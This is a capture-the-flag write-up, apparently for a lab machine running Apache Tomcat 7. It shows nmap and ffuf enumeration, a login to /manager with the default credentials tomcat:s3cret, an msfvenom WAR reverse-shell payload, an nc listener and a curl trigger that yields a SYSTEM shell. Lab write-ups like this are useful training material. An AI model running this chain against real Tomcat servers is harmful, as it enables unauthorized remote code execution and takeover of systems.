 Target: 10.10.10.95

## Enumeration:

nmap
```
$ sudo nmap -sC -sV 10.10.10.95

Nmap scan report for 10.10.10.95
Host is up (0.058s latency).
Not shown: 999 filtered ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
```

ffuf
```
$ ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.10.10.95:8080/FUZZ -fc 200

docs                    [Status: 302, Size: 0, Words: 1, Lines: 1]
examples                [Status: 302, Size: 0, Words: 1, Lines: 1]
host-manager            [Status: 302, Size: 0, Words: 1, Lines: 1]
manager                 [Status: 302, Size: 0, Words: 1, Lines: 1]
```

checking /manager

![/manager](jerry1.png)

trying default username:password (tomcat:s3cret)

![login success](jerry2.png)

### Findings:Looking for attack vectors

The /manager can be accessed with default credentials.
Create and upload a malicous war payload.


## Foothold:

crafting a war payload with msfvenom
```
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=<ip> LPORT=9001 -f war > shell.war

Payload size: 1101 bytes
Final size of war file: 1101 bytes
```

uploading the payload

![payload](jerry3.png)

opening a nc listener on port 9001
```
$ nc -lnvp 9001
```

getting a reverse shell
```
curl http://10.10.10.95:8080/shell/
```

```
C:\apache-tomcat-7.0.88>whoami

nt authority\system
```

```
C:\apache-tomcat-7.0.88> cd ..\Users\Administrator\Desktop\flags

C:\Users\Administrator\Desktop\flags>type "2 for the price of 1.txt"

user.txt
<redacted>

root.txt
<redacted>
```
